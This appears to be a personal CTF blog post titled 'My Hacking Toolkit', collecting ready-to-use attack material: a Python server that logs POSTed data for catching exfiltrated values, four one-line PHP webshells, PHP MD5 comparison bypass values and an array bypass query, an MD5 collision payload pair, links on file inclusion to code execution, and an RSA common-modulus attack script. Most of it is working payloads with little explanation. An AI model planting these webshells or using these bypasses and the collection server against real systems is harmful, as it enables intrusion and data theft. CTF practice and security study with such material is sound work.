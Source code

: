 ```yaml
---
abbrlink: 4e56d65
categories:
    - - Hacking
cover: https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/24/9/Blog_cover%20(17)%20(1)_3e1f0c91c61253af1f2670f4341e7d33.jpg
date: "2024-09-03T23:50:41.047232+08:00"
sticky: 1337
tags: CTF
title: My Hacking Toolkit
updated: "2024-09-04T16:33:10.514+08:00"
---
```


# Web

## Temp Server (Python)

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

## One-liner Trojan (Backdoor, Webshell)

```php
<?php @eval($_POST['shell']);?>
<?php @system($_POST["cmd"])?>
<?php passthru($_GET['cmd']); ?>
<? system($_GET["cmd"]); ?>
```



## LFI & RFI

### LFI2RCE

-   [Advanced Local File Inclusion to RCE in 2022](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/)
-   [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/CX330Blake/PHP_INCLUDE_TO_SHELL_CHAR_DICT)

## PHP Hash Bypass

### Scientific Notation

#### Numbers

```txt
240610708 0e462097431906509019562988736854 
314282422 0e990995504821699494520356953734 
571579406 0e972379832854295224118025748221 
903251147 0e174510503823932942361353209384 
1110242161 0e435874558488625891324861198103 
1320830526 0e912095958985483346995414060832 
1586264293 0e622743671155995737639662718498 
2302756269 0e250566888497473798724426794462 
2427435592 0e067696952328669732475498472343 
2653531602 0e877487522341544758028810610885 
3293867441 0e471001201303602543921144570260 
3295421201 0e703870333002232681239618856220 
3465814713 0e258631645650999664521705537122 
3524854780 0e507419062489887827087815735195 
3908336290 0e807624498959190415881248245271 
4011627063 0e485805687034439905938362701775 
4775635065 0e998212089946640967599450361168 
4790555361 0e643442214660994430134492464512 
5432453531 0e512318699085881630861890526097 
5579679820 0e877622011730221803461740184915 
5585393579 0e664357355382305805992765337023 
6376552501 0e165886706997482187870215578015
7124129977 0e500007361044747804682122060876 
7197546197 0e915188576072469101457315675502 
7656486157 0e451569119711843337267091732412
```

#### String

```txt
aaaXXAYW 0e540853622400160407992788832284 
aabg7XSs 0e087386482136013740957780965295 
aabC9RqS 0e041022518165728065344349536299
```

#### Original Scientific Notation

```txt
0e215962017 0e291242476940776845150308577824
```

### Array

In PHP, the default argument of the `md5()` function is string, when the argument is an array, the function will return `null`. 

```txt
?user[]=1&pass[]=1
```

### Collision

```txt
user=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%16%B4%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%DC%9F%95ab%D2%09P%A1%5D%12%3B%1ETZ%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29%EF%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%1E%7Ch%B0%96%A7%E5U%EBn1q%CA%D0%8B%C7%1BSP pass=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%164%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%5C%A0%95ab%D2%09P%A1%5D%12%3B%1ET%DA%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29o%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%9E%7Bh%B0%96%A7%E5U%EBn1q%CA%D0%0B%C7%1BSP
```

### Others (References)

- [PHP MD5 Bypass Trick](https://qftm.github.io/2020/08/23/php-md5-bypass-audit/#toc-heading-26)
- [[CTF]CTF中if (md5(md5(\$\_GET[‘a’])) == md5(\$\_GET[‘b’])) 的绕过](https://blog.csdn.net/baguangman5501/article/details/102031546)

# Crypto

## Common Modulus Attack

```python
from Crypto.Util.number import long_to_bytes

n = 8043524339665486501722690364841854181558012095441297536641336786057021881436981279151373985115124256457664918399612791182378270114245970486016546496099141
e1 = 863047
c1 = 977794351462943753500623403456170325029164798178157637276767524847451843872628142596652557213651039320937257524442343930998122764638359874102209638080782
e2 = 995023
c2 = 7803335784329682230086969003344860669091120072205053582211253806085013270674227310898253029435120218230585288142781999838242977459669454181592089356383378


def egcd(a: int, b: int) -> tuple[int, int, int]:
    if a == 0:
        return (b, 0, 1)
    g, y, x = egcd(b % a, a)
    return (g, x - (b // a) * y, y)


def inverse(a: int, b: int) -> int:
    g, x, y = egcd(a, b)  # ax + by = g
    if g == 1:
        return x % b
    raise ValueError("base is not invertible for the given modulus.")


g, x, y = egcd(e1, e2)

if x < 0:
    c1_inv = inverse(c1, n)
    c1 = pow(c1_inv, -x, n)
else:
    c1 = pow(c1, x, n)

if y < 0:
    c2_inv = inverse(c2, n)
    c2 = pow(c2_inv, -y, n)
else:
    c2 = pow(c2, y, n)

m = (c1 * c2) % n
print(long_to_bytes(m))
```

## Hash Collision

-   [Hash Collisions](https://github.com/CX330Blake/Hash-Collisions/)
